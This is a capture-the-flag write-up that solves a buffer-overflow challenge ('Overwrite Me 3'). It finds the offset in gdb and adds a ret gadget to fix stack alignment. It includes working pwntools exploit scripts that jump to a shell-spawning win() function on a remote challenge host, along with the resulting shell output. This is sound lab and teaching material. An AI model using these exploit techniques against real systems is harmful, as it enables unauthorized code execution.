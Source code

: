 ## Overwrite Me 3

This challenge had me jump to another function in the code, without the function ever being called  in the c code.

The buffer array was only 32 bytes, but `fgets()` did not stop writing until it had written 64 bytes. This would overflow the buffer. 

We can see that the `win()` function executes `/bin/sh` which would give me a shell. Therefore that was the location to jump to.

```c
int main()
{
    char buffer[32];

    ignore_me_init_buffering();
    ignore_me_init_signal();
	
    printf("You now know how to hit payloads on offsets. Use this knowledge to force a win out of this program!\n\n");
	printf("Let's play. Guess a number between 1-10:\n");

	fgets(buffer, 64, stdin);

	if (strcmp(buffer, "5\n") != 0)
	{
		lose();
	}
	else
	{
		lose_again();
	}

	return 0;

}

lose()
{
	printf("Wrong. You lose!\n");
}

lose_again()
{
	printf("Pfft. Also wrong. You lose again!\n");
}

win()
{
	printf("Correct! You won! Here comes the shell\n");
	system("/bin/sh");
}
```

My first step was to find the address of the `win()` function. This was done by using `objdump -t`
on the binary file. 
The output here is truncated to better fit on the screen.

I saw that the win function had the address `0x00000000004013a6` in memory.

```c
0000000000000000       F *UND*  0000000000000000              strcmp@@GLIBC_2.2.5
0000000000000000       F *UND*  0000000000000000              signal@@GLIBC_2.2.5
0000000000000000  w      *UND*  0000000000000000              __gmon_start__
000000000040129b g     F .text  0000000000000033              kill_on_timeout
0000000000404068 g     O .data  0000000000000000              .hidden __dso_handle
0000000000402000 g     O .rodata        0000000000000004              _IO_stdin_used
00000000004013d0 g     F .text  0000000000000065              __libc_csu_init
00000000004013a6 g     F .text  0000000000000023              win
00000000004040b0 g       .bss   0000000000000000              _end
0000000000401180 g     F .text  0000000000000005              .hidden _dl_relocate_static_pie
0000000000401150 g     F .text  000000000000002f              _start
0000000000404070 g       .bss   0000000000000000              __bss_start
00000000004012f4 g     F .text  0000000000000084              main
0000000000000000       F *UND*  0000000000000000              setvbuf@@GLIBC_2.2.5
00000000004012ce g     F .text  0000000000000026              ignore_me_init_signal
000000000040138f g     F .text  0000000000000017              lose_again
0000000000000000       F *UND*  0000000000000000              exit@@GLIBC_2.2.5
0000000000404070 g     O .data  0000000000000000              .hidden __TMC_END__
0000000000401000 g     F .init  0000000000000000              .hidden _init
00000000004040a0 g     O .bss   0000000000000008              stderr@@GLIBC_2.2.5
```

The next step was to debugg the binary in gdb and find the offsett.
By running the binary with the string `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ` I could find out where the offsett was.

Below is how the registers looked after i executed the binary in gdb with the string above.
I could see that the `rsp` register contained `KKKKLLLLMMMMNNNNOOOOPPP`. The `rsp` register contains the address that gets popped into the `rip` register on a `ret` instruction. The `rip` register contains the address of the next instruction. Therefore I want to put the address of the `win()` function in the `rip`     register, to jump there and get a shell.

The padding for this exploit is therefore `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ`

In x86-64 the value in the `rsp` register does not get popped to `rip` unless it is a valid address. This was my first mistake, because i looked for the overflow in the `rip` register, but the values i passed in to find the offset were not valid addresses. x86 on the other hand does pop the value in `esp` into `eip` without checking if it is a valid address (`esp` and `eip` are the equivalent registers in x86).


```c
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x007ffff7e8da37  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x1
$rsp   : 0x007fffffffdb48  →  "KKKKLLLLMMMMNNNNOOOOPPP"
$rbp   : 0x4a4a4a4a49494949 ("IIIIJJJJ"?)
$rsi   : 0x1
$rdi   : 0x007ffff7f94a70  →  0x0000000000000000
$rip   : 0x00000000401377  →  <main+131> ret
$r8    : 0x10
$r9    : 0x0
$r10   : 0x007ffff7d82360  →  0x000f001a00007b95
$r11   : 0x246
$r12   : 0x007fffffffdc58  →  0x007fffffffdf12  →  "/home/mathias/ctf/kcsc/overwrite_me/overwrite3"
$r13   : 0x000000004012f4  →  <main+0> endbr64
$r14   : 0x0
$r15   : 0x007ffff7ffd040  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

I could now write my exploit. 

```python
from pwn import *

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ"

win = p64(0x00000000004013a6)

p = remote("20.240.63.48", 30007)

p.recvuntil(b"Let's play. Guess a number between 1-10:\n")

p.sendline(padding + win)

p.interactive()
```

By running it i got this:
```shell
$ python3 exploit.py
[+] Opening connection to 20.240.63.48 on port 30007: Done
[*] Switching to interactive mode
Wrong. You lose!
[*] Got EOF while reading in interactive
```
I got an EOF (End Of File) Error. This was not supposed to happen. I did not really know what the problem was until i was sent this article by @tbi: https://ropemporium.com/guide.html

The issue seemed to be that the stack was unaligned. A so-called `MOVEAPS` issue. The link above said this: 
> movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra `ret` before returning into a function or return further into a function to skip a `push` instruction.

I decided to try pad an extra `ret` before the `win()` address. I were recommended https://github.com/JonathanSalwan/ROPgadget
This program can find ROPgadgets in a binary.
Running the program on the binary given in the challenge:

```shell
$ ROPgadget --binary overwrite3 --opcode c3
Opcodes information
============================================================
0x000000000040101a : c3
0x0000000000401184 : c3
0x00000000004011b0 : c3
0x00000000004011f0 : c3
0x000000000040121e : c3
0x0000000000401220 : c3
0x000000000040129a : c3
0x00000000004012cd : c3
0x00000000004012f3 : c3
0x0000000000401377 : c3
0x000000000040138e : c3
0x00000000004013a5 : c3
0x00000000004013c8 : c3
0x000000000040141f : c3
0x0000000000401434 : c3
0x0000000000401444 : c3
0x0000000000401454 : c3
```

The opcode `c3` is the opcode for the `ret` instruction, which i found here: https://shell-storm.org/x86doc/RET.html

By choosing one of the addresses above, I tried again.

```python
from pwn import *

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ"

win = p64(0x00000000004013a6)

ret = p64(0x000000000040101a)

p = remote("20.240.63.48", 30007)

p.recvuntil(b"Let's play. Guess a number between 1-10:\n")

p.sendline(padding + ret + win)

p.interactive()
```


This time it worked and I did not get an EOF Error.
```shell
$ python3 exploit.py
[+] Opening connection to 20.240.63.48 on port 30007: Done
[*] Switching to interactive mode
Wrong. You lose!
Correct! You won! Here comes the shell
$ ls
flag.txt
overwrite_me3
ynetd
$ cat flag.txt
KCSC{w4it_th4ts_nOt_aLLow3d}
```